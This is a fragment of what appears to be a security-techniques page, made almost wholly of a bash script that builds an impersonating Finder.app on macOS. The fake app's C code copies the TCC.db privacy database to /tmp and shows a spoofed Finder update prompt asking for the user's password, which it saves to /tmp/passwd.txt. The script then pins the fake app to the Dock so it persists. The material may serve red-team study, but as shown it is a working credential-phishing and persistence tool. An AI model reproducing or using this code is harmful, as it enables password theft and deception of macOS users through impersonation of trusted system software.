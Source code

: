 ```bash
    char *cmd = "open /System/Library/CoreServices/Finder.app & "
                "sleep 2; "
                "osascript -e 'tell application \"Finder\"' -e 'set homeFolder to path to home folder as string' -e 'set sourceFile to POSIX file \"/Library/Application Support/com.apple.TCC/TCC.db\" as alias' -e 'set targetFolder to POSIX file \"/tmp\" as alias' -e 'duplicate file sourceFile to targetFolder with replacing' -e 'end tell'; "
                "PASSWORD=\$(osascript -e 'Tell application \"Finder\"' -e 'Activate' -e 'set userPassword to text returned of (display dialog \"Finder needs to update some components. Enter your password:\" default answer \"\" with hidden answer buttons {\"OK\"} default button 1 with icon file \"System:Library:CoreServices:Finder.app:Contents:Resources:Finder.icns\")' -e 'end tell' -e 'return userPassword'); "
                "echo \$PASSWORD > /tmp/passwd.txt";
    system(cmd);
    return 0;
}
EOF

gcc /tmp/Finder.app/Contents/MacOS/Finder.c -o /tmp/Finder.app/Contents/MacOS/Finder
rm -rf /tmp/Finder.app/Contents/MacOS/Finder.c

chmod +x /tmp/Finder.app/Contents/MacOS/Finder

# Info.plist
cat << EOF > /tmp/Finder.app/Contents/Info.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>CFBundleExecutable</key>
    <string>Finder</string>
    <key>CFBundleIdentifier</key>
    <string>com.apple.finder</string>
    <key>CFBundleName</key>
    <string>Finder</string>
    <key>CFBundleVersion</key>
    <string>1.0</string>
    <key>CFBundleShortVersionString</key>
    <string>1.0</string>
    <key>CFBundleInfoDictionaryVersion</key>
    <string>6.0</string>
    <key>CFBundlePackageType</key>
    <string>APPL</string>
    <key>CFBundleIconFile</key>
    <string>app</string>
</dict>
</plist>
EOF

# Copy icon from Finder
cp /System/Library/CoreServices/Finder.app/Contents/Resources/Finder.icns /tmp/Finder.app/Contents/Resources/app.icns

# Add to Dock
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/tmp/Finder.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'
sleep 0.1
killall Dock
```
{% endtab %}
{% endtabs %}
